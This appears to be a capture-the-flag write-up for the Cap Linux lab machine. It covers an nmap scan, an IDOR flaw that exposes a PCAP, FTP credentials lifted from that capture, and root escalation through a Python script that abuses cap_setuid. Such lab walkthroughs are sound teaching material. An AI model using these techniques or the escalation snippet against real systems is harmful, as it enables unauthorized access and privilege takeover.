





Cap Linux Machine
IDOR vulnerability discovery, PCAP traffic analysis, credential reuse, and Linux capability-based privilege escalation
Overview
Cap is an easy Linux machine that demonstrates several important penetration testing concepts:
- Insecure Direct Object Reference (IDOR) — Accessing unauthorized data by modifying parameters
- PCAP Traffic Analysis — Extracting sensitive credentials from network captures
- Credential Reuse — Using extracted credentials for authentication
- Linux Capability-Based Privilege Escalation — Exploiting
cap_setuidto gain root access
Name: Cap
Difficulty: Easy
Operating System: Linux
Category: Web / Credential Reuse / Linux Capabilities
1. Scanning
Nmap Scan
─[✗]─[ANRx07@parrot]─[~/Desktop/cap]
└──╼ $ sudo nmap -sCV -Pn -vv -p- -T4 -oN 10.129.5.20_scanning 10.129.5.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-10 00:56 +01
NSE: Loaded 156 scripts for scanning.
Initiating SYN Stealth Scan at 00:56
Scanning 10.129.5.20 (10.129.5.20) [65535 ports]
Discovered open port 22/tcp on 10.129.5.20
Discovered open port 80/tcp on 10.129.5.20
Discovered open port 21/tcp on 10.129.5.20
Completed SYN Stealth Scan at 01:17, 1234.94s elapsed (65535 total ports)
Nmap scan report for 10.129.5.20 (10.129.5.20)
Host is up, received user-set (0.14s latency).
Not shown: 65514 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 63 vsftpd 3.0.3
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open http syn-ack ttl 63 gunicorn
|_http-server-header: gunicorn
|_http-title: Security DashboardScanning Results
| Port | Service | Version |
|---|---|---|
21/tcp |
FTP | vsftpd 3.0.3 |
22/tcp |
SSH | OpenSSH 8.2p1 Ubuntu |
80/tcp |
HTTP | gunicorn (Python WSGI) |
2. Enumeration
Web Enumeration (Port 80)
The web application shows a Security Dashboard:

IDOR Vulnerability
By manually changing the ID value in the URL, I discovered an Insecure Direct Object Reference (IDOR) vulnerability:
/data/0
/data/1
/data/20 contains sensitive information —
a PCAP file with captured network traffic.
PCAP Analysis
I downloaded and analyzed the PCAP file using Wireshark:
$ wireshark 0.pcap
From the PCAP analysis, I extracted sensitive credentials — a username and password.
username: nathanpassword: Buck3tH4TF0RM3!
3. Initial Access
Using the extracted credentials, I successfully authenticated via FTP:

I successfully obtained the user flag.
nathan.
4. Privilege Escalation
Enumerating Capabilities
I checked for special Linux capabilities using getcap:

/usr/bin/python3.8 = cap_setuid+ep
The cap_setuid capability allows a process to set its effective user ID.
This can be exploited to gain root privileges.
Exploiting cap_setuid
I created a Python script to exploit the capability:
import os
os.setuid(0)
os.system('/bin/sh')$ python3 privil_escal_setuid_0.py
cap_setuid.
All activities in this writeup were conducted within a fully authorized, isolated laboratory environment.
These techniques are presented solely for educational and defensive security purposes.